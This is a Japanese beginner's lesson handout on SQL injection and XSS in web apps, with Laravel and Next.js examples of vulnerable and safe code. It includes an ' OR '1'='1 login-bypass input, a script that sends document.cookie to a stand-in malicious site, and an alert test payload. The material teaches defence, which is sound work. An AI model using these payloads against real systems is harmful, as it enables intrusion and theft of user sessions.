


# SQLインジェクションとXSSについて

Webアプリには、**入力欄** がたくさんあります。
悪い人は、そこに **ふつうではない文字** を入れて、アプリをこわしたり、データをぬすんだりしようとします。
ここでは、Webアプリの代表的な攻撃である **SQLインジェクション** と **XSS** を見ていきます。

[自由制作に戻る](../2026_10_09/2026_10_09_資料1.md)

---

## 1. ひとことで言うと

| 名前 | 読み方 | 何をされる？ | ねらわれる場所 |
|------|-------|-----------|------------|
| **SQLインジェクション** | SQL Injection（注入） | 入力欄から **SQL を送りこまれる** → データを見られる・消される | **データベース** |
| **XSS** | Cross-Site Scripting（クロスサイトスクリプティング） | 入力欄から **JavaScript を送りこまれる** → ほかの人のブラウザで動く | **ほかの人のブラウザ** |

どちらも原因は同じで、**入力された文字を、そのまま「命令」として使ってしまう** ことです。

---

## 2. SQLインジェクション

### どうやって攻撃される？

ログイン画面で、入力されたメールアドレスを **そのまま SQL につなげて** いたとします。

```php
// ✕ 危ない書き方
$sql = "SELECT * FROM users WHERE email = '" . $email . "'";
```

ふつうの人は `taro@example.com` と入力します。

```sql
SELECT * FROM users WHERE email = 'taro@example.com'
```

ところが、悪い人が `' OR '1'='1` と入力すると…

```sql
SELECT * FROM users WHERE email = '' OR '1'='1'
```

`'1'='1'` は **いつでも正しい** ので、**すべてのユーザー** が取り出されてしまいます。
入力のしかたによっては、`DELETE` や `DROP TABLE` を動かされて、**データを全部消される** こともあります。

攻撃の流れを図にすると、次のようになります。



> 💡 **たとえるなら「注文票」**
> 店員さんが、お客さんの書いた注文票を **そのまま読み上げる** ルールだとします。
> 「ラーメン1つ。**それと、レジのお金を全部ください**」と書かれていたら…そのまま実行されてしまいます。

### どうやって防ぐ？

**入力された値を、SQL の「命令」ではなく「ただの値」として扱う** ようにします。
この書き方を **プレースホルダ**（バインド）といいます。

```php
// ◯ 安全な書き方（? の部分に、値として入る）
$users = DB::select('SELECT * FROM users WHERE email = ?', [$email]);
```

**Laravel の Eloquent やクエリビルダーを使えば、自動でこの書き方になります。**

```php
// ◯ 安全（自動でプレースホルダになる）
$user = User::where('email', $email)->first();
```

| 書き方 | 安全？ |
|-------|------|
| `User::where('email', $email)` | ◯ 安全 |
| `DB::select('... WHERE email = ?', [$email])` | ◯ 安全 |
| `DB::select("... WHERE email = '$email'")` | ✕ 危ない（文字をそのままつなげている） |
| `DB::raw(...)` や `whereRaw(...)` に入力をそのまま入れる | ✕ 危ない |

> 📝 Supabase の JavaScript ライブラリ（`supabase.from('books').select()...`）も、値は安全に扱われます。

---

## 3. XSS（クロスサイトスクリプティング）

### どうやって攻撃される？

掲示板やコメント欄で、入力された文字を **そのまま HTML として表示** していたとします。
悪い人が、コメント欄に次のように書きこむと…

```html
<script>
  // ここに悪いプログラムを書く
  fetch('https://悪いサイト/?data=' + document.cookie)
</script>
```

そのページを **ほかの人が開いたときに**、この JavaScript が **その人のブラウザで動いて** しまいます。
ログイン情報をぬすまれたり、勝手に投稿されたりする危険があります。



### どうやって防ぐ？

表示するときに、`<` を `&lt;`、`>` を `&gt;` のような **ただの文字に置きかえて** 表示します。
これを **エスケープ** といいます。エスケープすると、`<script>` は **画面にそのまま文字として** 表示されるだけで、動きません。

**Blade も React（Next.js）も、ふつうに書けば自動でエスケープしてくれます。**

| 技術 | ◯ 安全（エスケープされる） | ✕ 危ない（エスケープされない） |
|-----|------------------------|---------------------------|
| Laravel（Blade） | `{{ $book->review }}` | `{!! $book->review !!}` |
| React（Next.js） | `<p>{book.review}</p>` | `<p dangerouslySetInnerHTML={{ __html: book.review }} />` |

> ⚠️ **`{!! !!}` や `dangerouslySetInnerHTML` は、使う人が入力した文字には使わない**
> React の `dangerouslySetInnerHTML` は、名前に **dangerously（危険に）** と入っているくらい危ない書き方です。

---

## 4. 2つの共通点

| | SQLインジェクション | XSS |
|---|---|---|
| 原因 | 入力を **SQL の命令** として使ってしまう | 入力を **HTML・JavaScript** として使ってしまう |
| 防ぎ方 | **プレースホルダ**（Eloquent・クエリビルダーを使う） | **エスケープ**（`{{ }}`・`{ }` で表示する） |
| フレームワークを使えば | 自動で守られる | 自動で守られる |

> 💡 **使う人の入力は、信用しない**
> セキュリティの基本は、「入力された文字は、何が入っているかわからない」と考えることです。
> フレームワークの **ふつうの書き方** をしていれば、多くの攻撃は自動で防げます。
> **ふつうではない書き方（`raw`・`{!! !!}`・`dangerouslySetInnerHTML`）をするときだけ、特に注意** しましょう。

---

## 5. 自分のアプリで確かめてみよう

自分のアプリの入力欄に、次の文字を入れて保存してみましょう。

```
<script>alert('XSS')</script>
```

| 結果 | 意味 |
|-----|------|
| 画面にそのまま `<script>alert('XSS')</script>` と **文字で表示された** | ◯ 安全（エスケープされている） |
| **アラートが表示された** | ✕ 危ない → 表示している部分を確認する |

> ⚠️ **自分のアプリ以外では、ぜったいに試さない**
> ほかの人のサイトでこうした入力を試すと、**不正アクセス** として法律で罰せられることがあります。

---

## 6. まとめ

- **SQLインジェクション** ＝ 入力欄から **SQL** を送りこまれて、データベースを操作される
- **XSS** ＝ 入力欄から **JavaScript** を送りこまれて、ほかの人のブラウザで動かされる
- どちらも原因は **入力をそのまま命令として使う** こと
- 防ぎ方は **プレースホルダ**（SQL）と **エスケープ**（表示）
- Laravel・Next.js は、**ふつうに書けば自動で守られる**。`raw`・`{!! !!}`・`dangerouslySetInnerHTML` は要注意
- 試すのは **自分のアプリだけ**

[自由制作に戻る](../2026_10_09/2026_10_09_資料1.md)
